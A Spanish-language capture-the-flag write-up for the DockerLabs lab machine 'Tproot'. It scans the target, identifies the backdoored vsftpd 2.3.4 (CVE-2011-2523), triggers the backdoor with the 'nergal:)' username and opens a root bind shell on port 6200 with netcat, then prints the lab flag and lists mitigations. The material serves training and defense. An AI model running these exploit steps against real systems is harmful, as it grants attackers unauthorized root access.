

<h1 align="center">🐟 Tproot — Writeup</h1>

<p align="center">
  
</p>

<p align="center">
  
  
  
</p>

<p align="center">
  <b>Enumeración de servicios</b> &nbsp;→&nbsp; <b>vsftpd 2.3.4 vulnerable</b> &nbsp;→&nbsp; <b>Backdoor (puerto 6200)</b> &nbsp;→&nbsp; <b>root</b>
</p>

---

## 📑 Índice

1. [Información de la máquina](#1-información-de-la-máquina)
2. [Reconocimiento](#2-reconocimiento)
3. [Identificación de la vulnerabilidad](#3-identificación-de-la-vulnerabilidad)
4. [Explotación del backdoor de vsftpd 2.3.4](#4-explotación-del-backdoor-de-vsftpd-234)
5. [Acceso como root y flag](#5-acceso-como-root-y-flag)
6. [¿Por qué funciona? (CVE-2011-2523)](#6-por-qué-funciona-cve-2011-2523)
7. [Mitigaciones](#7-mitigaciones)
8. [Herramientas utilizadas](#8-herramientas-utilizadas)

---

## 1. Información de la máquina

| Campo            | Valor                                        |
|------------------|----------------------------------------------|
| Nombre           | Tproot                                       |
| Plataforma       | DockerLabs                                   |
| IP objetivo      | `172.17.0.2`                                 |
| Dificultad       | Muy fácil                                    |
| Vulnerabilidad   | vsftpd 2.3.4 — Backdoor Command Execution    |
| CVE              | CVE-2011-2523                                 |

> **Nota:** la IP depende de tu despliegue de Docker. Ajusta `172.17.0.2`
> a la que te asigne tu laboratorio.

---

## 2. Reconocimiento

### 2.1. Escaneo completo de puertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

Dos puertos abiertos:

- **21/tcp** — FTP
- **80/tcp** — HTTP

### 2.2. Detección de servicios y versiones

```bash
sudo nmap -sCV -p 21,80 172.17.0.2 -oN targeted
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Unix
```

| Puerto | Servicio | Versión | Notas |
|--------|----------|---------|-------|
| 21/tcp | FTP | **vsftpd 2.3.4** | Versión con backdoor conocido |
| 80/tcp | HTTP | Apache 2.4.58 | Página por defecto de Apache, sin contenido útil |

> 💡 El puerto 80 solo muestra la página por defecto de Apache. El FTP
> es el vector: **vsftpd 2.3.4** es una versión históricamente comprometida.

---

## 3. Identificación de la vulnerabilidad

Buscamos exploits conocidos para esa versión:

```bash
searchsploit "vsftpd 2.3.4"
```

```
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                            | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)               | unix/remote/17491.rb
--------------------------------------------------------------------- ---------------------------------
```

Copiamos el exploit en Python para entender su funcionamiento:

```bash
searchsploit -m 49757
```

### Lógica del exploit (`49757.py`)

1. Se conecta al FTP en el puerto **21**.
2. Envía un usuario manipulado: `USER nergal:)` y una contraseña cualquiera `PASS pass`.
3. El carácter `:)` (smiley) **activa el backdoor** incrustado en el código fuente de vsftpd 2.3.4.
4. El backdoor abre una **shell de root escuchando en el puerto TCP 6200**.
5. El exploit se conecta a ese puerto 6200 y entrega la shell.

---

## 4. Explotación del backdoor de vsftpd 2.3.4

### 4.1. Lanzar el exploit

```bash
python3 49757.py 172.17.0.2
```

El script falla con `ConnectionRefusedError` al conectar al puerto 6200:

```
ConnectionRefusedError: [Errno 111] Connection refused
```

> ⚠️ **Esto NO significa que el exploit haya fallado.** El envío del usuario
> `nergal:)` ya disparó el backdoor; simplemente la conexión del script al
> puerto 6200 fue demasiado rápida o perdió el tiempo (timing). El puerto
> queda abierto y a la escucha.

### 4.2. Confirmar que el backdoor está activo

```bash
sudo nmap -p 21,80,6200 172.17.0.2
```

```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
6200/tcp open  lm-x      ← backdoor activo
```

¡El puerto **6200** está abierto! El backdoor ya está escuchando.

---

## 5. Acceso como root y flag

Nos conectamos manualmente al puerto 6200 con `netcat`:

```bash
nc 172.17.0.2 6200
```

```bash
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

### 🏆 ¡Root directo!

La shell es de **root** desde el primer momento, así que **no hace falta
escalada de privilegios**. Leemos la flag:

```bash
cd /root
ls
root.txt
cat root.txt
261fd3f32200f950f231816b4e9a0594
```

---

## 6. ¿Por qué funciona? (CVE-2011-2523)

En **julio de 2011**, el servidor de descargas oficial de **vsftpd** fue
comprometido y la versión **2.3.4** se distribuyó con un **backdoor
malicioso** incrustado en su código fuente.

- Cuando un usuario se autentica con un nombre que contiene la secuencia
  `:)` (smiley), el servicio abre un **bind shell con privilegios de root**
  en el puerto **TCP 6200**.
- No es un fallo de configuración ni un desbordamiento: es **código
  malicioso introducido en la distribución del software** (ataque a la
  cadena de suministro).

---

## 7. Mitigaciones

1. **Actualizar o eliminar vsftpd 2.3.4.** Usar una versión íntegra y
   verificada del repositorio oficial.
2. **Verificar la integridad del software** (hashes/firmas GPG) antes de
   instalar paquetes, para detectar distribuciones manipuladas.
3. **Inventario de versiones expuestas.** Saber qué servicios y versiones
   están accesibles desde la red.
4. **Reducir la exposición del FTP.** No publicar FTP donde no es necesario;
   preferir protocolos cifrados como **SFTP/FTPS**.
5. **Monitorizar listeners inesperados** en puertos poco habituales
   (como el 6200).

---

## 8. Herramientas utilizadas

- `nmap` — escaneo de puertos y detección de versiones.
- `searchsploit` — búsqueda y descarga del exploit.
- `python3` — ejecución del exploit `49757.py`.
- `netcat (nc)` — conexión al bind shell del backdoor.

---

<p align="center">
  <i>Writeup con fines educativos sobre un entorno de laboratorio controlado (DockerLabs).<br>
  No utilizar estas técnicas contra sistemas sin autorización explícita.</i>
</p>
